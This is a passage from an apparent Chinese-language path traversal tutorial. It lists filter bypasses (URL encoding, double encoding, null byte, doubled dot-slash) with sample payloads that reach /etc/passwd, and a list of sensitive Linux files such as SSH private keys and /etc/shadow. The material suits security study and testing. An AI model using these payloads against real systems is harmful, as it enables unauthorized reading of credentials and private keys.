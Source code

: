 #### 2、url 编码绕过

|     |     |
| --- | --- |
| 使用 %2e 代替 . | ?name=%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd |
| 使用 %2f 代替 / | ?name=..%2f..%2f..%2f..%2f..%2fetc%2fpasswd |
| 使用 %2e%2e%2f 代替 ../ | ?name=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd |

常用绕过一般是后两种，点一般不会被过滤，因为文件名中间也会存在一个 **.**

#### 3、二次编码绕过

|     |     |
| --- | --- |
| 使用 %25%32%65 代替 . | ?name=%252e%252e/%252e%252e/%252e%252e/%252e%252e/etc/passwd |
| 使用 %25%32%66 代替 / | ?name=..%252f..%252f..%252f..%252f..%252fetc%252fpasswd |
| 使用 %25%32%65%25%32%65%25%32%66<br><br>代替 ../ | ?name=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd |

#### 4、将 / 替换为 \\ 绕过

#### 5、%00 绕过

?name=.%00./.%00./.%00./.%00./etc/passwd

#### 6、双写绕过

有些代码会进行过滤，会把 ../ 置空，那么利用 ....// 代替 ../ ，利用 ..// 代替 /

这种情况很少见，视情况而定

## 漏洞利用

#### Linux 系统下利用

```php
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts
/etc/passwd
/etc/shadow
/etc/issue 系统版本
/etc/fstab
/etc/host.conf
/var/log/xferlog  FTP会话，记录拷贝了什么文件
/var/log/cron 计划任务日志
/etc/(cron.d/|crontab) //这两个也是定时任务文件
/var/log/secure 用户登录安全日志
/etc/rc.local 读apache的路径
/etc/motd
/etc/sysctl.conf
/var/log/syslog 记录登陆错误时的密码等信息
/etc/environment 环境变量配置文件 可能泄露大量目录信息
/etc/inputrc 输入设备配置文件
/etc/default/useradd 添加用户的默认信息的文件
/etc/login.defs 是用户密码信息的默认属性
/etc/skel 用户信息的骨架
/sbin/nologin 不能登陆的用户
/var/log/message 系统的日志文件
/etc/httpd/conf/httpd.conf 配置http服务的配置文件
/etc/mtab     包含当前安装的文件系统列表   有时可以读取到当前网站的路径
/etc/ld.so.conf
```